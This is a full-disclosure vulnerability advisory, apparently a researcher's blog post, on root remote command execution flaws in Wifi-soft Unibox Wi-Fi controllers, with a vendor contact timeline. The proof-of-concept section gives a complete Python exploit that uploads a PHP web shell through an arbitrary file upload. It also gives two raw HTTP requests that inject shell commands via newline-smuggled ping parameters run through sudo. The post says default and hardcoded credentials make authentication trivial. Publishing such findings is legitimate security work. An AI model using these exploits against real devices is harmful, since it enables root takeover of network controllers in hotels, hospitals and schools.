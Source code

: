 ```yaml
---
layout: post
title:  "[0-day] Multiple Root RCE in Unibox Wifi Access Controller 0.x - 3.x"
tagline: Wifi-soft Unibox Controller Vulnerability Report
tag: advisory
excerpt_separator: <!--more-->

---
```


In this post, I will be disclosing POCs for multiple Remote Command & Code injection vulnerabilities found in Wifi-soft's Unibox Controllers. The vulnerabilities allows an attacker to gain root privileges on the system and affects all versions of Wifi-soft's Unibox Controllers. As there was no response from Wifi-soft team with-in and after 90 days disclosure timeline, I am going with full disclosure. So that people using these devices know the risk they are putting their infrastructure upto.<!--more-->
Following map shows the approximate number of devices affected globally:

![map](/assets/images/unibox/map.png)

### Product Description
[Unibox Controller][0] is a fast-paced, reliable and scalable network controller for all Large & Small venues. It can be installed in any public venue like hotels, cafes, schools/colleges, hospitals, shopping malls, travel venues and even private offices to control, manage and monitor Internet access.

It is designed to work with access points from any vendor and is extremely easy to configure and deploy in the network. It comes in different models ranging from 50 to 5,000 concurrent users so it can be deployed to manage a network of any scale. UniBox works seamlessly with UniMax access points making it really easy to deploy and manage these access points centrally from a single console.

### Affected Versions : 0.x - 3.x
### Vulnerable Instances:

#### Unibox 0.x - 2.x 

* /network/mesh/edit-nds.php, **[POST] file CVE-2019-3495**
* /tools/ping **[POST] address CVE-2019-3497**

#### Unibox 3.x
* /tools/controller/diagnostic_tools_controller, **[POST] pingIPAddress CVE-2019-3496**

### Proof of Concept:

**Note:** *All session IDs and cookies are omitted to limit the damage, any credentials required to exploit the mention vulnerabilities are hardcoded and can be obtained without any sort of authentication as well (O yea, more vulns are still there and yes they have default admin credentials). If product owners are reading this and are concerned about the credibility of POCs, you can put a comment here and I can share the exploit with credentials, but I don't think that would be required anyway.*


### POC Exploit - CVE-2019-3495

```python
#!/usr/bin/env python

# Exploit Author: Sahil Dhar (Twitter: @0x401)
# Desc: Unibox 2.x Remote Command Execution via Arbitrary file upload Exploit

import requests
import sys
import argparse
import os
import re
import string

from random import sample, randint

filename = ''.join(sample(string.ascii_letters, randint(5,15)))+'.php'

def gen_stagers():
	payload = "<?php echo shell_exec(\"sudo /usr/local/unibox-0.9/scripts/exeCommand.sh '\".$_REQUEST['c'].\"'\"); ?>"
	return payload


def exploit(rhost):
	cookie = {'user': 'unibox', 'pass':'md5(hardcoded_value)'}	
	multipart_data = {
		'sent': (None,'Save Page or Upload File'),
		'file' : (filename,"%s" %(gen_stagers())),
		'contents': (None,'<h1>Welcome to my network</h1>\n<a href="$authtarget">Login to my network!</a>')
	}
	headers = {
	'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Accept-Language': 'en-GB,en;q=0.5'

	}
	url = "http://%s/network/mesh/edit-nds.php" %(rhost)
	response = requests.post(url,
					files=multipart_data,
					verify=False,
					cookies=cookie,
					headers=headers,
					proxies=proxies
				)
	data = response.text
	payload =  re.findall(r'<sc.*>.*\:\\n(.*?)\"\);<\/sc.*>',data)[0]
	print "[I] Payload Url \nUrl: %s\n" %(payload)
	response = requests.get(payload+'?c=id')
	print response.text	
	print "[I] Done"

if __name__=='__main__':
	print 'Unibox 2.x Remote Command Execution via Arbitrary file upload\n'
	if len(sys.argv) < 1:
		print 'Missing rhost'
		os._exit(1)
	exploit(sys.argv[1])
```
![poc_2](/assets/images/unibox/2.png)


### POC - CVE-2019-3497

```markdown
POST /tools/ping HTTP/1.1
Host: unibox_0.x_2.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 86
Cookie: PHPSESSID=<obtained_via_hardcoded_credentials>
Connection: close
Upgrade-Insecure-Requests: 1

pingaction=1&address=127.0.0.1%0asudo /usr/local/unibox-0.9/scripts/exeCommand.sh%20id
```

![poc_1](/assets/images/unibox/1.png)


### POC - CVE-2019-3496

```markdown
POST /tools/controller/diagnostic_tools_controller HTTP/1.1
Host: unibox_3.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=<obtained_via_hardcoded_credentials>
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

action=ping&pingIPAddress=127.0.0.1%0asudo /usr/local/unibox/scripts/exeCommand.sh%20id
```

![poc_3](/assets/images/unibox/3.png)

[0]: http://wifi-soft.com/unibox-controller/

### Vendor Response Timeline
* **4/10/2018** - Sent inital email. - No response
* **12/10/2018** - Sent an email, included CEO's, CTO's and any other support/marketting email address I can find to discuss about the vulnerability. - No response
* **31/12/2018** - Sent another email via their online contact form. - No response
* **5/1/2019** - Public Disclosure :)